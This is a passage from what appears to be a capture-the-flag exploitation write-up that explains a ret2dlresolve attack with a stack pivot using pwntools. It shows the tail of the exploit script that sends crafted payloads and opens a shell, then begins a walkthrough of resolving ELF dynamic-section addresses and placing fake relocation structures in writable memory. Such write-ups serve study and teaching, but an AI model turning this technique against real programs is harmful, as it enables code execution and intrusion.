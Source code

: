 ```python
p.sendline(exploit)
p.info('[O] Structures set')

# Set string
p.recvuntil(b'xx')
assert(rel_offset % 24 == 0) # We need to assert the address is divisible by Elf64_Rel size (24)
p.info(f'[*] Launching dl_resolve... with rel at offset {hex(int(rel_offset/24))} - real {hex(rel_offset)}')
p.sendline(p64(0x00) * 2 + p64(PIVOTED_STACK+0x50) + p64(RESOLVER) + p64(int(rel_offset/24)) + p64(elf.symbols['main'] + 12))
p.info(f'Final stack addr at {hex(PIVOTED_STACK+0x50)}')

p.recvuntil(b'xx')
p.info('**************************************************')
p.info('All set; that was a nice ride; here is your shell :)')

p.interactive()
```

but let's break it piece by piece.

### Figure out the locations

For this task, I relied on the approach [from pwntools](https://github.com/Gallopsled/pwntools/blob/db98e5edfb/pwnlib/rop/ret2dlresolve.py#L228C1-L232C90) to resolve the addresses:

```python
elf_load_address_fixup = elf.address - elf.load_addr
ELF64_REL_LIST = elf.dynamic_value_by_tag("DT_JMPREL") + elf_load_address_fixup
ELF64_SYM_LIST =  elf.dynamic_value_by_tag("DT_SYMTAB") + elf_load_address_fixup
FUNCTION_NAMES_LIST = elf.dynamic_value_by_tag("DT_STRTAB") + elf_load_address_fixup
RESOLVER = 0x401020
```

But you can obviously resolve them by hand. Using gef we can debug the program and run `xfiles` to get the offsets.
With regular gdb it can be done with `info files`.

These addresses are needed to calculate the indexes so `_dl_resolve` can resolve our fake structures.

Based on this, we will place our structures in a rw controlled area: .data + .bss:

```python
PIVOTED_STACK = 0x0000000000404f10
FINAL_STACK = 0x0000000000404da0

STRING_ADDRESS = PIVOTED_STACK+0x10
REL_ENTRY_ADDRESS = PIVOTED_STACK+0x30
SYM_ENTRY_ADDRESS = PIVOTED_STACK+0x20
```

### Prepare fake Elf64_Rel entry
